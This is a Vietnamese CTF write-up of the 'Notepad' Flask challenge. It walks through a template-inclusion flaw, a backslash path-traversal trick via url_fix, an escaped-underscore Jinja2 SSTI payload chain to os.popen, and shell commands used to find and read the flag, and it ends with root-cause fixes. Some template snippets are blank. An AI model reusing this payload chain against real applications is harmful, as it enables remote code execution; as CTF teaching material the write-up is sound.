

# Writeup: Notepad (SSTI qua Path Traversal + Filter Bypass)

## 1. Phân tích source code

**app.py:**
```python
from werkzeug.urls import url_fix
from secrets import token_urlsafe
from flask import Flask, request, render_template, redirect, url_for

app = Flask(__name__)

@app.route("/")
def index():
    return render_template("index.html", error=request.args.get("error"))

@app.route("/new", methods=["POST"])
def create():
    content = request.form.get("content", "")
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```

**templates/index.html:**
```jinja

  <h3>error: {{ error }}</h3>
  

```

Hai điểm mấu chốt lộ ra ngay:

1. **``** — `error` là GET param do người dùng kiểm soát hoàn toàn, được nối thẳng vào đường dẫn include. Đây là **Local Template Inclusion**: nếu ta chèn được `../` vào `error`, Jinja sẽ include bất kỳ file nào trên đĩa **và render nó như một template Jinja2** — tức là nếu file đó có `{{ ... }}`, nó sẽ được thực thi (SSTI).
2. **`/new`** cho phép ghi nội dung tùy ý (`content`) ra file `static/<url_fix(content[:128])>-<token>.html`, nhưng lọc `_` và `/` trong `content`.

→ Ý tưởng khai thác: **dùng `/new` để "cấy" một file `.html` chứa payload Jinja2 vào đúng thư mục `templates/errors/`, sau đó dùng `error=` ở `/` để include/thực thi nó.**

Dockerfile xác nhận thêm 2 việc quan trọng:
```dockerfile
RUN mkdir /app/static && chmod -R 775 . && \
    chmod 1773 static templates/errors && \
    mv flag.txt flag-$(cat /proc/sys/kernel/random/uuid).txt
```
- `templates/errors` có quyền ghi (1773 = sticky bit + rwx cho other) → khớp với việc `/new` có thể ghi file vào đó qua path traversal.
- Flag bị đổi tên thành `flag-<uuid>.txt` → không thể đoán tên, phải `ls` để tìm ra tên thật trước khi `cat`.

## 2. Bypass filter `_` và `/` trong `content`

Điều kiện chặn: `if "_" in content or "/" in content: → bad_content`.

**Bypass path traversal (`/`):** filter chỉ chặn dấu `/`, không chặn `\`. Server chạy Linux nên `\` không có ý nghĩa như separator ở tầng OS, nhưng `werkzeug.urls.url_fix` (được gọi trên `content[:128]` trước khi ghép vào tên file) sẽ **chuẩn hóa `\` thành `/`**. Do đó:

- Input: `..\templates\errors\AAAA...AAAA` (đủ để lấp đầy 128 ký tự)
- Sau `url_fix`: `../templates/errors/AAAA...AAAA`
- Tên file thật sự được `open()` ghi ra: `static/../templates/errors/AAAA...AAAA-<token>.html` → thực chất là `templates/errors/AAAA...AAAA-<token>.html` (traversal thoát khỏi `static/`).

Đây chính là log thực nghiệm:
```
Location: http://.../templates/errors/aaaa...aaa-hKtAvVP46DY.html
```

**Vì sao phải nhồi đủ 128 ký tự rồi mới xuống dòng `\n{{payload}}`?**
`content[:128]` chỉ được dùng để **sinh tên file**, còn `f.write(content)` ghi **toàn bộ** `content` (tối đa 512 ký tự) vào file. Nếu để payload Jinja nằm trong 128 ký tự đầu, nó sẽ bị `url_fix` "quote" biến dạng và lẫn vào tên file (làm hỏng path traversal). Nên phải đệm đủ `a...a` cho tới đúng mốc 128 ký tự để cắt gọn phần dùng làm tên file, rồi mới thêm `\n{{...}}` — phần này nằm ngoài `content[:128]` nên **không ảnh hưởng đến tên file**, nhưng vẫn được ghi đầy đủ vào nội dung file, sẵn sàng bị Jinja thực thi khi include.

**Bypass filter `_` cho payload SSTI:** payload SSTI chuẩn dùng rất nhiều `__` (`__class__`, `__globals__`, `__builtins__`, `__import__`...) — toàn bộ đều chứa `_`, nên nếu gõ trực tiếp sẽ bị chặn ngay ở bước `/new`. Đây là chỗ hay nhất của bài:

- Bộ lọc chỉ soi **chuỗi thô gửi lên** (`content` trong request POST), chứ không soi **sau khi Jinja compile**.
- Jinja2 parser hiểu escape sequence kiểu Python trong string literal, gồm cả `\xHH`. Vậy nếu gửi chuỗi literal `\x5f\x5f` (tức 8 ký tự: `\`, `x`, `5`, `f`, `\`, `x`, `5`, `f` — **không có ký tự `_` thật nào**) nằm bên trong một string literal của template, thì khi Jinja **compile** template đó ra, nó sẽ tự giải mã `\x5f` → `_`.

→ Do đó payload gửi lên trông như:
```
{{request|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5finit\x5f\x5f')...}}
```
không chứa `_` hay `/` nào ở tầng "raw content" nên vượt qua được filter của `/new`, nhưng khi được include và Jinja compile string literal, nó biến thành `__class__`, `__init__`... như bình thường.

Việc dùng `attr('...')` thay vì `.`/`[]` cũng là để mọi tên thuộc tính đều nằm gọn trong string literal — chỗ duy nhất Jinja áp dụng escape `\xHH`.

## 3. Chuỗi khai thác (payload chain)

Từ `request` (Jinja2 luôn expose biến `request` mặc định), đi đến RCE qua chain kinh điển trong PayloadsAllTheThings cho Flask/Jinja2 khi truy cập `__builtins__` trực tiếp qua `config`/`self` bị chặn do dính `_` chưa bypass hết (payload gõ tay literal `config.__class__.__init__.__globals__['os']` bị redirect về `bad_content` vì filter phát hiện `_` thật):

```
{{ request
   | attr('\x5f\x5fapplication\x5f\x5f')      # -> lấy về Flask app / class liên quan
   | attr('\x5f\x5fglobals\x5f\x5f')          # __globals__ của hàm/class đó
   | attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')
   | attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')
   | attr('popen')('id')
   | attr('read')()
}}
```

Diễn giải chain (tương đương bản thuần không escape):
```python
request.__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
```

Các bước thực nghiệm:
1. `id` → xác nhận RCE, biết mình đang chạy với user thấp quyền (`nobody`/`nogroup` theo Dockerfile `-unobody -gnogroup`).
2. `ls` → vì flag đã bị đổi tên ngẫu nhiên (`flag-$(uuid).txt`), cần liệt kê thư mục `/app` để tìm tên file thật.
3. `cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt` → đọc nội dung flag.

## 4. Bước kích hoạt cuối cùng — điểm dễ bị bỏ sót

Mỗi POST `/new` chỉ **ghi payload ra file** `templates/errors/<random>-<token>.html` và trả về `Location: .../templates/errors/<file>.html`. **Route đó không tồn tại trong Flask** (không có `@app.route("/templates/...")`), nên bản thân redirect này **không** kích hoạt SSTI.

RCE thực sự chỉ xảy ra khi gọi:
```
GET https://notepad.mars.cylabacademy.net/?error=<random>-<token>
```
(bỏ đuôi `.html`), vì lúc đó `index()` thực thi:
```jinja

```
→ Flask/Jinja đọc file vừa ghi và **render nó như template** → `{{ ... }}` bên trong được compile & execute → output lệnh `id`/`ls`/`cat` xuất hiện trong HTML trả về của trang `/`.

Nói cách khác quy trình đầy đủ luôn là **2 request**: POST `/new` để cấy payload → GET `/?error=<tên file không đuôi>` để trigger include/SSTI và đọc kết quả.

## 5. Tóm tắt luồng tấn công



## 6. Nguyên nhân gốc rễ & bài học

| Lỗi | Nguyên nhân |
|---|---|
| Local File Inclusion | `error` param nối thẳng chuỗi vào path của `` mà không whitelist tên file cho phép |
| Path Traversal | Blacklist ký tự (`_`, `/`) thay vì whitelist; quên rằng `url_fix()` tự chuẩn hóa `\` → `/` sau bước kiểm tra |
| SSTI + filter bypass | Blacklist áp dụng trên "raw input" trong khi payload được **compile lại** ở một pha khác (Jinja parser hiểu escape `\xHH`) — kinh điển của lỗi "kiểm tra input trước khi input được diễn giải lại bởi một trình thông dịch khác" |
| Thiết kế | Cho phép người dùng ghi file tùy ý vào thư mục ứng dụng dùng để `render_template`/`include` luôn là red flag |

**Bài học chung:** không bao giờ dùng blacklist ký tự để chặn traversal hay injection — luôn whitelist (ví dụ: chỉ cho `error` nhận giá trị nằm trong danh sách tên file cố định, hoặc dùng `secure_filename` + kiểm tra path đã resolve nằm trong base dir mong muốn bằng `os.path.realpath`/`Path.resolve()` + `is_relative_to`).
